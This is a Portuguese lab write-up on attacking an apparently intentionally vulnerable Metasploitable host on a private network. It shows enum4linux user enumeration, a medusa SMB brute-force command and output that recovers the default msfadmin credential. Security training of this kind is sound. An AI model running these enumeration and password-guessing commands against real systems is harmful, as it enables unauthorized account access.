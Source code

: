 ### Enumeração Prévia de Usuários

Antes do ataque, foi realizada enumeração de usuários com `enum4linux`:

```bash
$ enum4linux -U 192.168.56.102
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ )

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 192.168.56.102
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''

 ============================ 
|    Users on 192.168.56.102 |
 ============================ 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: msfadmin	Name: msfadmin,,,	Desc: 
index: 0x2 RID: 0x3ea acb: 0x00000010 Account: user	Name: just a user,,,	Desc: 
index: 0x3 RID: 0x3ec acb: 0x00000010 Account: postgres	Name: PostgreSQL administrator,,,	Desc: 
index: 0x4 RID: 0x3ee acb: 0x00000010 Account: service	Name: ,,,	Desc: 

user:[msfadmin] rid:[0x3e8]
user:[user] rid:[0x3ea]
user:[postgres] rid:[0x3ec]
user:[service] rid:[0x3ee]
```

### Comando Executado

```bash
medusa -h 192.168.56.102 -U wordlists/users.txt -P wordlists/passwords.txt -M smbnt -t 2 -v 6 -f
```

### Resultados Obtidos

**✅ CREDENCIAIS DESCOBERTAS:**

| Usuário | Senha | Tempo | Tentativas |
|---------|-------|-------|------------|
| **msfadmin** | **msfadmin** | ~35 segundos | 267 tentativas |

### Output do Medusa (Resumido)

```
ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 10, 0 complete) Password: 123456 (1 of 31 complete)
ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 10, 0 complete) Password: password (2 of 31 complete)
...
ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```
